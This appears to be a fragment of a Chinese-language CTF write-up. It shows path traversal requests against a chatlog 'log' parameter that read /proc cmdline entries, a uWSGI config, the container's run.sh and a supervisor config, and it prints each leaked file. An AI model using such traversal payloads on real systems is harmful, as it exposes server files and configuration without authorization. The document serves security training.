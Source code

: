 可以获取到以下文件：

```
# /module?name=chatlog&log=../../../../../proc/1/cmdline
/sbin/docker-init--shrun.sh

# /module?name=chatlog&log=../../../../../proc/self/cmdline
uwsgi--ini/tmp/uwsgi-ctf.ini

# /module?name=chatlog&log=../../../../../tmp/uwsgi-ctf.ini
[uwsgi]
socket = :3031
chdir = /usr/src/ufctf
manage-script-name = true
mount = /=app:app
master = true
uid = nobody
gid = nogroup
workers = 2
buffer-size = 65535
enable-threads = true
pidfile = /tmp/uwsgi.pid

# Guess Docker init script is /usr/src/ufctf/run.sh
# /module?name=chatlog&log=../../../../../usr/src/ufctf/run.sh
#!/bin/sh

cd /usr/src/ufctf

cp /flagtmp /flag
echo "" > /flagtmp

chown nobody -R . \
    && chmod 0666 -R /tmp/* \
    && chown root:root /flag \
    && chmod 0600 /flag

socat UNIX-LISTEN:/sock/socat.sock,fork,reuseaddr TCP4:127.0.0.1:8080 &

nginx -c /etc/nginx/nginx.conf
exec supervisord -n -c /etc/supervisor-ctf.conf

# /module?name=chatlog&log=../../../../../etc/supervisor-ctf.conf
[supervisord]
logfile=/tmp/supervisord.log ; main log file; default $CWD/supervisord.log
logfile_maxbytes=50MB        ; max main logfile bytes b4 rotation; default 50MB
logfile_backups=0           ; # of main logfile backups; 0 means none, default 10
loglevel=info                ; log level; default info; others: debug,warn,trace
pidfile=/tmp/supervisord.pid ; supervisord pidfile; default supervisord.pid
nodaemon=true               ; start in foreground if true; default false
silent=false                 ; no logs to stdout if true; default false
minfds=1024                  ; min. avail startup file descriptors; default 1024
minprocs=200                 ; min. avail process descriptors;default 200

[program:uwsgi]
command=uwsgi --ini /tmp/uwsgi-ctf.ini
user=root
autorestart=true
autostart=true
startretries=3
redirect_stderr=true
startsecs=5
stdout_logfile=/tmp/supervisor.log
stopasgroup=true
```